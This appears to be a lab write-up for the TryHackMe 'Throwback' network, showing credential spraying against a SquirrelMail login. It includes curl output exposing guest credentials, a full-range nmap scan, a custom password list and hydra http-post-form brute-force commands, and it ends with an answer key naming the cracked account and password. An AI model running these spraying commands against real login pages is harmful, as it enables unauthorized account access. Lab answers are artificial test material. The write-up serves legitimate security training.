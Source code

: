#  Wait, just you mean just one this time?

With my smb analysis leading to the conclusion that the HumpreyW account is a backdoor we return to guided path once again. According to the instruction from the team are going to do some crediental spraying. Firstly a nice awk on the usernames from the contacts:

![awk](Screenshots/wait-usernames-awk.png)

Now just `> usersnames.txt` and remove noreply, HumphreyW, Mr Peanutbutter and Bojackhorseman to preventing wasting a much time on known and "real-people" accounts. One quick curl command later to get login parametres:
```bash
curl http://10.200.102.232/src/login.php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en_US" lang="en_US">
    <head>
<title>Throwback Hacks - Login</title>
    <script type="text/javascript" language="JavaScript">
<!--
if (self != top) { try { if (document.domain != top.document.domain) { throw "Clickjacking security violation! Please log out immediately!"; /* this code should never execute - exception should already have been thrown since it's a security violation in this case to even try to access top.document.domain (but it's left here just to be extra safe) */ } } catch (e) { self.location = "/src/signout.php"; top.location = "/src/signout.php" } }
// -->
</script>
<meta name="robots" content="noindex,nofollow" />                                                              
<link rel="shortcut icon" href="/favicon.ico" /><link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/options.css"  />                                                                         
<link media="screen" rel="stylesheet" type="text/css" href="../templates/default/css/default.css"  />          
<link media="screen" rel="stylesheet" type="text/css" href="/src/style.php?"  />                               
<link media="print" title="printerfriendly" rel="stylesheet" type="text/css" href="/css/print.css"  />         
<script type="text/javascript">                                                                                
<!--                                                                                                           
  var alreadyFocused = false;
  function squirrelmail_loginpage_onload() {
    if (alreadyFocused) return;
    var textElements = 0; var i = 0;
    for (i = 0; i < document.login_form.elements.length; i++) {
      if (document.login_form.elements[i].type == "text" || document.login_form.elements[i].type == "password") {
        textElements++;
        if (textElements == 1) {
          document.login_form.elements[i].focus();
          break;
        }
      }
    }
  }
// -->
</script>
<!--[if IE 6]>
<style type="text/css">
/* avoid stupid IE6 bug with frames and scrollbars */
body {
    width: expression(document.documentElement.clientWidth - 30);
}
</style>
<![endif]-->
</head>


<body onload="squirrelmail_loginpage_onload()">
<form name="login_form" id="login_form" action="redirect.php" method="post" onsubmit="document.login_form.js_autodetect_results.value=1">
<div id="sqm_login">
<table cellspacing="0">
 <tr>
  <td class="sqm_loginTop" colspan="2">
   <img src="/pics/throwback.png" class="sqm_loginImage" alt="Throwback Hacks Logo" width="308" height="111" /><br /><br />
Guests who require access to an email can use the following: <br />
tbhguest:WelcomeTBH1!<br /><br />  </td>
 </tr>
 <tr>
  <td class="sqm_loginOrgName" colspan="2">
   Throwback Hacks Login  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="login_username">
   Name:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="text" name="login_username" value="" id="login_username" onfocus="alreadyFocused=true;"  />
  </td>
 </tr>
 <tr>
  <td class="sqm_loginFieldName"><label for="secretkey">
   Password:  </label></td>
  <td class="sqm_loginFieldInput">
   <input type="password" name="secretkey" value="" id="secretkey" onfocus="alreadyFocused=true;"  />
   <input type="hidden" name="js_autodetect_results" value="0" class="sqmhiddenfield" id="js_autodetect_results" /><input type="hidden" name="just_logged_in" value="1" class="sqmhiddenfield" id="just_logged_in" />  </td>
 </tr>
  <tr>
  <td class="sqm_loginSubmit" colspan="2">
   <input type="submit" value="Login" />
  </td>
 </tr>
</table>
</div>
</form>
<!-- end of generated html -->
</body>
</html>
```

![burplogin](Screenshots/wait-burp-login.png)

From this screenshot:

```bash
login_username=^USER^&secretkey=^PASS&js_autodetect_results=1&just_logged_in=1
```

On the list of tools to try out brutespray and  is just a nice `apt-get install brutespray` away. I requires Nmap output so I'll rerun:
`nmap -sV -sC -oA throwback -p- 10.200.0-255.0/24 --min-rate 5000` with -oA for outputing all formats and also a range over the 0-255, third octet, which did not do the first time. It will take longer but that is fine for reconing more indepth in the background while I setup password spraying in medusa and hydra. Don't forget to 	`gzip -d /usr/share/wordlists/rockyou.txt.gz` the rockyou list on the Kali VM.

```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $MACHINE_IP http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect' 
```

Consider that bruteforcing in this way is not very smart and the task is hinting at making a custom password list based on a set of strings:
```txt
Summer2020
Management2020
Management2018
Password2020
Throwback2020
Password123
```

I decided to use mentalist password permutation, warning getting this to work on some mahcines has  been a nightmare, especially the THM VMs, when a certain CTF requires  a wordlist > GBs!

![mentalist-one](Screenshots/mentalist-wl-one.png)

*Please waitWhatHappen for an explaination, too many mistakes occured and I had rewrite this section, but I am not going to glaze over my failings*

To create a list of users I used `awk` and then piped with `>` into a usernames.txt  

![wait-users](Screenshots/wait-usernames-awk.png)

Post file removed, no reply account to speed up bruteforcing.
```bash
hydra -L usernames.txt -P passwords.txt 10.200.102.232  http-post-form '/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect'
```

![peanut](Screenshots/wait-hydra-peanuts-away.png)

some more:

![almost](Screenshots/wait-hydra-getting-there.png)


## Answers

What is the username parameter in the POST request?  
```{toggle}
login_username
```
What is the password parameter in the POST request?  
```{toggle}
secretkey
```
What username found with hydra starts with an M?  
```{toggle}
MurphyF
```
What is the password found with hydra?
```{toggle}
Summer2020
```